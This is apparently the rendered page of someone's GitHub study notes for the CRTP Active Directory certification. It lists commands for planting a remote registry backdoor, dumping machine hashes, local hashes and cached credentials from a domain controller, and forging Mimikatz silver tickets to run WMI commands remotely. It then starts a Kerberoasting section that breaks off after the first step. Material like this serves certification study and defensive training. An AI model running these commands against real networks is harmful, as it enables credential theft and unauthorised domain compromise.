 # Persistence - ACLs
what you are trying to achieve here. we want to try to run a command on the admin controller without having admin privilege. [Reference](https://crtp-certification.certs-study.com/domain-persistence/acls/wmi)
### Using RACE or DAMP, with admin privs on remote machine
```
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose
```
### As student1, retrieve machine account hash
```
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
```
### Retrieve local account hash
```
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
```
### Retrieve domain cached credentials
```
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```
### Obtaining RCE using sliver ticket
1. Make a host service ticket 
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:HOST /rc4:<local computer hash> /startoffset:0 endin:600 /renewmax:10080 /ptt"'
```
2. make an RPCSS service ticket
```
BetterSafetyKatz.exe -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:RPCSS /rc4:<local computer hash> /startoffset:0 endin:600 /renewmax:10080 /ptt"'
```
3. list the tickets
```
klist
```
4. startup a new powershell session
5. run a powershell command to access DC using gwmi
```
gwmi -Class win32_operatingsystem -ComputerName dcorp-dc
```

# Priv Esc - Kerberoast
The idea of this technique is that we are looking for users who have the authority to implement a specific service on a specific device, so I will exploit this service in order to obtain the user’s TGS and crack it using the tgscrack tool. After that, we will enter the device.
1. Find user accounts used as service accounts
```
. ./GetUserSPNs.ps1
Get-NetUser -SPN
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/22e930c3-6c7f-4e78-be63-5d30babc6a8a)
